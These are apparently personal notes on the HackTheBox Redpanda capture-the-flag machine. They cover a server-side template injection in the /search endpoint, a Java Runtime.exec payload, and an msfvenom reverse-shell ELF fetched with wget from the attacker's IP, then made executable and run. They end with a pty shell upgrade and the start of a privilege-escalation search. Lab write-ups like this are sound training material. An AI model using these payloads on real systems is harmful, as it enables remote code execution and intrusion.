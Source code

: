 # HackTheBox Redpanda machine notes

## SSTI
- For some reason always returning process instead of the command response
- Possible SSTI (POST HTTP endpoint /search) payload = "name='*{ssti}'" (not possible with dollar sign for some reason)

- Not let's remember that $ and _ characters are banned, so we need to use the SSTI-PAYLOAD generator that will encode it to another format
- The payload looks like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('the command').getInputStream())}


# How to estabilish reverse shell
1. Generate ELF file: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=31337 -f elf > r.elf
2. Make the target download the file with wget like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('wget 10.10.14.8:443/r.elf').getInputStream())}
3. Give every permission to file: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('chmod 777 ./r.elf').getInputStream())}
4. Start netcat listener at our host and run the file at target: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('./r.elf').getInputStream())}
5. Make an interactive python shell like this: python -c 'import pty; pty.spawn("/bin/sh")'

# Privilege escalation
- I discovered that there is a process running as root containing the panda search, when crawling through the long goofy ahh java file structure I found three java files at this path: "/opt/panda_search/src/main/java/com/panda_search/htb/panda_search"